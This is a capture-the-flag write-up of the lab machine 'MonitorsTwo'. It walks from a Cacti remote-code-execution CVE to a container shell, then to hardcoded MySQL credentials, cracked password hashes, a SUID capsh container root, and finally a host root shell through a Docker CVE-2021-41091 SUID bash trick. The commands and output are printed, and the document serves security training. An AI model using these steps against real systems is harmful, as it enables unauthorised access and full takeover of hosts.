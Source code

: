 # MonitorsTwo

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.78.86
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-29 23:41 EDT
Nmap scan report for 10.129.78.86
Host is up (0.16s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

Another web-based exploit.&#x20;

### Cacti

When we check the web port, we see that it is running Cacti.

<figure><img src="../../.gitbook/assets/image (641).png" alt=""><figcaption></figcaption></figure>

The version run is actually vulnerable to one unauthenticated RCE exploit, and there are tons of PoCs online to use.

{% embed url="https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit" %}

This has to do with the polling of Cacti, and we just need to modify the exploit to point to our own IP address to get a shell.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We got a shell on the docker, so the next step is to escape it.&#x20;

### MySQL Passwords

Within the `/` directory, we can find a bash script:

```
www-data@50bca5e748b0:/$ ls -la
ls -la
total 84
drwxr-xr-x   1 root root 4096 Mar 21 10:49 .
drwxr-xr-x   1 root root 4096 Mar 21 10:49 ..
-rwxr-xr-x   1 root root    0 Mar 21 10:49 .dockerenv
drwxr-xr-x   1 root root 4096 Mar 22 13:21 bin
drwxr-xr-x   2 root root 4096 Mar 22 13:21 boot
drwxr-xr-x   5 root root  340 Apr 29 22:40 dev
-rw-r--r--   1 root root  648 Jan  5 11:37 entrypoint.sh
```

Here's the content of it:

```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

So we have a database password and we can enumerate the database. This docker doesn't have `python`, so we cannot spawn a shell via `pty`. Instead, we have to use the `-e` flag to enumerate the database since we don't have a proper shell.

```
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "show databases" 
<user=root --password=root cacti -e "show databases"
Database
information_schema
cacti
mysql
performance_schema
sys
```

We can extract the hashed password for the users within the database:

```
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

I ran `john` on the hashes, and managed to crack one of them to get `funkymonkey`.

![](<../../.gitbook/assets/image (9).png>)

With this and a username, we can `ssh` into the machine as `marcus`. Then, grab the user flag.

### CVE-2021-41091 --> Root Shell

Within the `/var/mail` folder, there's some mail for `marcus`:

{% code overflow="wrap" %}
```
marcus@monitorstwo:/var/mail$ cat marcus 
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```
{% endcode %}

The first 2 vulnerabilities are not relevant, but the last one was rather interesting.&#x20;

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2021-41091" %}

In short, it appears that when dockers are created, some of the SUID binaries are carried over. In that case, we can enumerate the SUID binaries on the machine and find these using LinPEAS:

```
[+] SUID - Check easy privesc, exploits and write perms                                                                    
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                              
strace Not Found                                                                                                           
-rwsr-xr-x 1 root root 63K Feb  7  2020 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                                
-rwsr-xr-x 1 root root 44K Feb  7  2020 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 87K Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 52K Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 58K Feb  7  2020 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 31K Oct 14  2020 /sbin/capsh
-rwsr-xr-x 1 root root 35K Jan 20  2022 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 71K Jan 20  2022 /bin/su
-rwsr-xr-x 1 root root 55K Jan 20  2022 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
```

`capsh` has the SUID binary set, which is not the norm. Based on GTFOBins, we can run this command to spawn a root shell:

```
www-data@50bca5e748b0:/var/www/html$ capsh --gid=0 --uid=0 --
capsh --gid=0 --uid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Great! Now we are root on the docker. Now, we can find the mounted point of this docker from the main machine, and we can create a `bash` SUID binary to get a shell.&#x20;

First we need to find the mount point using `df`:

```
marcus@monitorstwo:/var/lib/docker$ df
Filesystem     1K-blocks    Used Available Use% Mounted on
udev             1966928       0   1966928   0% /dev
tmpfs             402608    1232    401376   1% /run
/dev/sda2        7054840 4451424   2513656  64% /
tmpfs            2013040       0   2013040   0% /dev/shm
tmpfs               5120       0      5120   0% /run/lock
tmpfs            2013040       0   2013040   0% /sys/fs/cgroup
overlay          7054840 4451424   2513656  64% /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
shm                65536       0     65536   0% /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
overlay          7054840 4451424   2513656  64% /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
shm                65536       0     65536   0% /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
```

At`/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged` would bring us to the file system of the docker container. Then, using our root shell on docker, we can just use `chmod u+s /bin/bash` to spawn a SUID binary for the main machine to use.&#x20;

This works because of the CVE allowing for us to create SUID binaries across machines.&#x20;

We can see the SUID `bash` binary here:

<figure><img src="../../.gitbook/assets/image (625).png" alt=""><figcaption></figcaption></figure>

We can get a root shell easily:

```
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p 
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
```

Rooted!
